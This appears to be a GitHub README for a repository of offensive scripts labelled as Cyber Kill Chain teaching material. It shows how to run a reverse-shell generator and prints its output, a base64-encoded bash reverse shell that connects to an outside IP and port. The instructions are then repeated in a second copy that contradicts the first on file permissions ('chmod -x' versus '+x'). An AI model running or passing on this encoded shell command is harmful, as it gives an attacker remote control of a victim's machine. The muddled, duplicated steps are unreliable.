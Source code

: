 # AI-PGS

# Focus on Cyber Kill Chain Framework for educational purposes. Harness AI to generate diverse, high-quality scripts from user prompts. Explore various genres with customizable parameters.

To use the scripts on this vault follow the instructions:

1 - Paste the code on your Command Line (CLI) and remove the text (.txt) extension:

    ┌──(kali㉿kali)-[~]
    
    └─$ view BASE64-Reserse-Shell-Prompter.py
    
2 - Provide Execution (+x) permissions:

    ┌──(kali㉿kali)-[~]
    
    └─$ chmod +x BASE64-Reserse-Shell-Prompter.py
    
3 - Use the script:

    ┌──(kali㉿kali)-[~]
    
    └─$ python BASE64-Reserse-Shell-Prompter.py 10.10.14.211 1234
    
Base64-encoded Bash shell session command:

YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTEvMTIzNCAwPiYx

The following methods can discover the usage:

- Analyze the source code:
  
    ┌──(kali㉿kali)-[~]
  
    └─$ less BASE64-Reserse-Shell-Prompter.py
  

- Check if a usage prompt is available:
    └─$ python BASE64-Reserse-Shell-Prompter.py 
Usage: python script.py <ip_address> <port>


To use the scripts on this vault follow the instructions
1 - Paste the code on your Command Line (CLI) and remove the text (.txt) extension
┌──(kali㉿kali)-[~]
└─$ view BASE64-Reserse-Shell-Prompter.py
                                             
2 - Provide Execution (+x) permissions                                                                                                                       
┌──(kali㉿kali)-[~]
└─$ chmod -x BASE64-Reserse-Shell-Prompter.py
3 - Use the script
┌──(kali㉿kali)-[~]
└─$ python BASE64-Reserse-Shell-Prompter.py 10.10.14.211 1234
Base64-encoded Bash shell session command:
YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC4yMTEvMTIzNCAwPiYx


The usage can be discovered by the following methods:
-  Analyze the source code
┌──(kali㉿kali)-[~]
└─$ less BASE64-Reserse-Shell-Prompter.py
                
- Check if a usage prompt is available
└─$ python BASE64-Reserse-Shell-Prompter.py 
Usage: python script.py <ip_address> <port>
